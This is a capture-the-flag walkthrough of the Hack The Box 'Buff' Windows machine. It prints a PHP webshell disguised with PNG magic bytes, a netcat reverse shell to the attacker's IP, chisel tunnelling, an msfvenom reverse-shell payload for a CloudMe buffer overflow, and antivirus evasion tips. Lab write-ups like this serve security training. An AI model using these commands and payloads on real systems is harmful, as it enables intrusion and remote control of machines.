 ## HTB: Buff Walkthrough

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.198
nmap -p 7680,8080 -sC -sV -oA scans/nmap-tcpscans 10.10.10.198
```
- Ports Open:
  - 8080: Apache [httpd](HTTP) 2.4.43 (Win64) PHP/7.4.6
  - 7680: Unknown

#### Gobuster
```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o scans/gobuster-root-small-php
```
- Interesting Directories:
  - /upload.php
  - /register.php
  - /about.php
  - /admin

---

### Initial Exploit

#### Identifying the Application
- Web app identified as **Gym Management System** from **Projectworlds.in**
- Confirmed via `/README.md` and `/contact.php`

#### Searchsploit
```bash
searchsploit gym management
```
- Found: **Gym Management System 1.0 - Unauthenticated RCE** (48506.py)

#### Webshell Upload
- Upload bypass via double extension: `shell.php.png`
- Upload via `upload.php?id=yourname`
- PHP shell content starts with PNG magic bytes:
```php
\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
- Trigger shell:
```bash
curl http://10.10.10.198:8080/upload/yourname.php?cmd=whoami
```

#### Upgrade Shell
- Serve nc64.exe over SMB using impacket’s smbserver:
```bash
smbserver.py share . -smb2support -username df -password df
```
- On Buff:
```cmd
net use \\10.10.14.20\share /u:df df
copy \\10.10.14.20\share\nc64.exe C:\programdata\nc.exe
C:\programdata\nc.exe -e cmd.exe 10.10.14.20 443
```
- Start listener:
```bash
rlwrap nc -lvnp 443
```

---

### Privilege Escalation

#### Enumeration
- Local port 8888 used by `CloudMe.exe`
- Found `CloudMe_1112.exe` in Downloads

#### Searchsploit
```bash
searchsploit cloudme
```
- Found: **CloudMe 1.11.2 - Buffer Overflow (48389.py)**

#### Setup Tunnel with Chisel
- Upload chisel client:
```cmd
copy \\10.10.14.20\share\chisel.exe C:\programdata\chisel.exe
```
- Start server on Kali:
```bash
chisel server -p 8000 --reverse
```
- Connect from Buff:
```cmd
chisel.exe client 10.10.14.20:8000 R:8888:127.0.0.1:8888
```

#### Modify Exploit Payload
- Use msfvenom to generate reverse shell:
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
- Replace payload in `48389.py`
- Run exploit:
```bash
python3 cloudme-bof.py
```
- Get admin shell at listener

---

### Flags
- **User:** `e9ff7f33************************`
- **Root:** `0e2cf4e5************************`

---

### Beyond Root

#### Gym Exploit Analysis
- Exploit uses `/upload.php` with `id` param to upload shell
- Bypasses extension filter with `.php.png`
- Bypasses MIME filter with correct Content-Type and PNG header

#### Defender Evasion
- Upload fails with `system()` due to AV
- Upload succeeds with `shell_exec()`
- Alternate bypass: inject HTML tags to evade Defender signature detection

---

### Summary
HTB: Buff is an excellent beginner-friendly box emulating an OSCP-style workflow: from web exploitation to bypassing upload filters, to privilege escalation through buffer overflow in a local service. The use of Chisel for tunneling and awareness of AV evasion techniques adds valuable depth to the learning experience.

